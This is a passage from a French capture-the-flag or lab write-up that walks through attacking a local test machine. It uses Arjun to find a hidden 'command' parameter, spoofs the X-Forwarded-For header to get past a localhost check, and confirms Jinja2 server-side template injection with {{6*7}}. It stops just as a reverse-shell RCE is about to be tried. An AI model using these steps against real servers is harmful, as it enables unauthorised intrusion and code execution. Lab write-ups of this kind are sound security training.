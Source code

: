 ```bash
$ arjun -u http://192.168.56.80/2e51aab2-8824-47a6-9492-2dd9d533644a --headers "X-Forwarded-For: 127.0.0.1"
_
/_| _ '
( |/ /(//) v2.2.1
_/

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] parameter detected: command, based on: body length
[+] Parameters found: command
```
`Arjun` a trouvé un paramètre qui fait changer la taille du corps de la page, intéressant ! Regardons ce que ce paramètre fait: 
```bash
$ curl -H "X-Forwarded-For: 127.0.0.1" http://192.168.56.80/2e51aab2-8824-47a6-9492-2dd9d533644a?command=test
<!DOCTYPE html>
 <html>
   <head>
     <title>Secret Page</title>
   </head>
   <body>
     <p>test</p>
   </body>
 </html>
```
La valeur du paramètre « command » se reflète sur la page ! Voyons si elle est vulnérable aux SSTI (Server-Side Template Injection). En supposant que notre site web fonctionne avec Flask, la syntaxe d'une injection de base ressemblerait à ceci : « {{6*7}} », ce qui exécuterait et afficherait « 42 » dans le modèle HTML.
> J'utiliserai Postman comme exemple, car c'est un moyen simple de spécifier l'en-tête « X-forwarded-For ». Cependant, burpsuite, les outils de développement de votre navigateur ou tout autre outil fonctionneraient parfaitement pour ce genre de manip. Vous pouvez également continuer à utiliser curl, mais n'oubliez pas d'échapper les caractères spéciaux ou d'encoder manuellement votre commande, car l'outil n'accepte que le format d'encodage URL.

![postman](https://user-images.githubusercontent.com/58345798/210207689-0f038a01-3c0e-4ad8-a504-d61ba062d680.png)

Bingo ! SSTI :)

## Exploiter la vuln

Aller, on va faire un tour sur notre repo github favori, aka [PayloadsAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2), et on dirait qu'on peut avoir un RCE (Remote Code Execution) plutôt facilement, avec un reverse shell. 
On teste :
